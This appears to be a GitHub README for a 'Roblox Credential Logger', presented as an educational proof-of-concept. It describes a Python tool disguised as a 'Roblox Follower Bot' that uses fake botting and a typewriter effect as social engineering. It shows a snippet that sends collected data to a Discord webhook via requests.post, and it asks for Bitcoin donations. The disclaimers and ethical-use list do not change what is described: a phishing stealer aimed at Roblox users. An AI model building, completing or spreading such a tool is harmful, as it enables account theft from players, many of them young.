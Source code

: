 
# Roblox Credential Logger (Educational Purposes)

![Preview](https://imgur.com/a/UE6YfJn)  
*This is how it looks like*

## 📜 Description
A Python-based demonstration of how credential logging attacks can be disguised as legitimate tools. This **educational proof-of-concept** simulates a "Roblox Follower Bot" while showcasing security risks.

```python
# Example of the webhook integration (simplified)
def send_to_webhook(data):
    requests.post(WEBHOOK_URL, json=data) # Educational purposes only
```

## ⚠️ Critical Disclaimer
**This project is for:**
- Security research
- Ethical hacking demonstrations  
- Defensive programming education

**Using this maliciously violates:**
- Discord's [Terms of Service](https://discord.com/terms)
- Roblox's [Community Standards](https://en.help.roblox.com/hc/articles/203313410)
- Potentially computer crime laws in your region

## 🛠️ Technical Details

### Features
| Component | Purpose |
|-----------|---------|
| `colorama` | Terminal coloring |
| `requests` | Webhook simulation |
| Typewriter FX | Social engineering element |
| Fake botting | Simulated activity |

### Installation
```bash
pip install -r requirements.txt
# requirements.txt:
requests==2.31.0
colorama==0.4.6
```

## 💰 Support the Developer
If you find this educational content valuable:  
**BTC:** `bc1q35kav7ushle28kdwa28gr534glx9twuswywjlk`  
*All contributions support future research projects.*

## 🔒 Ethical Use Guidelines
1. Only test on systems you own
2. Never deploy without explicit permission
3. Disclose webhook usage if demonstrating
4. Review local laws before use

---

*Last updated: May 20 2025*  

---
